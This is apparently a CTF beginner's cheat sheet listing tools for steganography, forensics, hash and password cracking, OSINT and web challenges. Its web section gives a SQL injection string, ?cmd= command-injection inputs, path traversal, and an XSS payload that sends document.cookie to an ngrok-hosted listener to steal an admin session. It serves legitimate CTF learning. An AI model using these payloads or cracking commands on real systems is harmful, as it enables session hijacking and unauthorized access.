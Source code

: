 # **These are best used in Kali Linux**

## **Reverse Engineering**
  ### To analyze ELF files:
    - https://elfy.io/
  ### To dissamble ELF:
    - https://onlinedisassembler.com/odaweb/

## **For steganography and Forensics:**

  ### For general files:
    - exiftool (filename)
    - binwalk -e (filename)
    - file (filename)
    - foremost -v filename
    - cat filename ----{to read executables}
    - stegsnow -C -p '1234' newdos.txt
    - https://futureboy.us/stegano/decinput.html  (jpeg, wav or au)
    - 0 width chars: https://330k.github.io/misc_tools/unicode_steganography.html
    - twitter spacing: https://holloway.nz/steg/
    
  ### For images:
    - strings filename | grep (stringtosearch)
    - steghide --extract -sf <filename>
    - zsteg -a <filename.png>
    - https://www.aperisolve.com/ (all in one steg tool)
    - https://lukeslytalker.pythonanywhere.com/deepscan
    - pngcheck
    - sudo apt install ruby
      sudo gem install zsteg
      zsteg <filename>
      (detect LSB steganography only in the case of PNG and BMP images.)

  ### For audio files:
    - audacity <file_name>
    - sonic-visualiser <file_name>
    - AudioStego (https://github.com/danielcardeenas/AudioStego)
    - Morse code wav files: https://morsecode.world/international/decoder/audio-decoder-expert.html

  ### File Signatures/Magic Numbers:
    - GIF : 47 49 46 38 39 61 18 01
    - PNG/IHDR : 89 50 4E 47 0D 0A 1a 0A
    
  ##  **Password cracking tools:
    - fcrackzip tool 
      fcrackzip -u -D -p ~/rockyou.txt ~/zipfilename.zip
    - john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 crack.txt
      for zip files:
        store the hash in a text file hash.txt
        first extract zip file hash : zip2john zipfile.zip > hash.txt
        then use john to crack: john --wordlist=rockyou.txt hash.txt 
    - stegcracker <file> [<wordlist>]   (used to crack passwords in files that contain hidden data)
    - sudo apt-get install pdfcrack
      pdfcrack -f <file_name> -w <location_of_wordlist_file>

  ## **For hashes**
    - https://hashtoolkit.com/
    - https://www.cmd5.org/
    - hashid - to identify the type of hash
    - www.crackstation.net
    - hashcat: 
      store the hash in a text file hash.txt
      hashcat -m <mode_number> -O hash.txt <wordlist>
      https://hashcat.net/wiki/doku.php?id=example_hashes
    
  ### Gcode simulator : https://nraynaud.github.io/webgcode/
  
  ## **Identify/Decode an unidentified encoding**
    - https://2cyr.com/decode/?lang=en
    - https://www.dcode.fr/cipher-identifier
    - https://gchq.github.io/CyberChef/
  
  
  ## **Barcode Reader/Detector**
  ### - https://products.aspose.app/barcode/recognize#/recognized
  
  ## **WEB forensics**
  ### Wayback machine
    - https://archive.org/web/

  ## **For Web Challenges:**
    - inspect element
    - view page source
    - robots.txt or other directory files (flag.txt)
    - check network (in inspect element) for any reloads/redirects
    - burpsuite
    - curl to send or receive data/payload
    - for sql injection try:
      abc' OR '1'='1'--
    - in URL, try ?cmd=ls -lrt
                  ?cmd=cd ..;ls -lrt
                  ?cmd=cat flag.txt 
    - try editing cookies (admin = True) [in login challenges]
    - to modify headers: use curl 
      ex. curl -H "Host: test.example" http://example.com/
    - try moving back directories using local file inclusion vulnerability
    - explore directories : append the url with /../
    - try checking for files like: /.git
    - to clone all directories of a website: wget -m <URL>
    - XSS: try entering html code or JS code (e.x <h1>hi</h1> or <script>alert(1)</script>
      using js:  1. setup web server: sudo python -m http.server 80
                 2. setup ngrok server: ngrok http 80
                 3. copy the web address displayed by ngrok
                 4. in vulnerave website, where you can post inputs, type <script>new Image().src='<copied url>?c='+document.cookie</script>
                 5. get admin cookie or required cookie in http server. replace your cookie with that cookie and refresh. 
    - template injection payload ex. {{7*7}}
    - check for xml injection (xxe vulnerability)
                

    
  ## **OSINT**
    - https://osintframework.com/
    - https://nixintel.info/osint/12-osint-resources-for-e-mail-addresses/
    - https://www.shodan.io/        (search engine for anything)
    - Google Dorking: https://infosecwriteups.com/finding-vulnerable-info-using-google-dorks-ethical-hacking-23f358117ceb
  
  
  ### Useful links and repos:
    - https://www.dcode.fr/cipher-identifier
    - https://gchq.github.io/CyberChef/
    - https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/steganography
    - https://infosecwriteups.com/beginners-ctf-guide-finding-hidden-data-in-images-e3be9e34ae0d
    - https://0xrick.github.io/lists/stego/
    - https://d00mfist.gitbooks.io/ctf/content/forensics/data-extraction.html
    - https://futureboy.us/stegano/decinput.html
    - https://www.dcode.fr/png-chunks
    - https://github.com/R0B1NL1N/PayloadsAllTheThings
    - https://shankaraman.wordpress.com/tag/how-to-extract-ftp-files-from-wireshark-packet/#:~:text=Just%20open%20the%20packet%20in,the%20files%20in%20a%20Directory.&text=Firstly%2C%20the%20Client%20(10.10.,request%20to%20the%20Server%20(78.47.
    - ophcrack
    - https://www.yeahhub.com/the-12-best-must-have-tools-for-steganography-updated-tools/
    - https://www.hackingarticles.in/online-message-decoder-spam-maker/
    - https://330k.github.io/misc_tools/unicode_steganography.html
    - https://wiki.bi0s.in/
    - encoding conversion: https://www.rapidtables.com/
    - hashcat cheatsheet: https://hashcat.net/wiki/doku.php?id=hashcat
                          https://github.com/frizb/Hashcat-Cheatsheet
    - lfi cheat sheet https://book.hacktricks.xyz/pentesting-web/file-inclusion
                      https://highon.coffee/blog/lfi-cheat-sheet/
    - search for vulnerabilities and exploits: https://book.hacktricks.xyz/welcome/readme
    - extract text from images: tesseract: tesseract -l eng <imagefile> output.txt
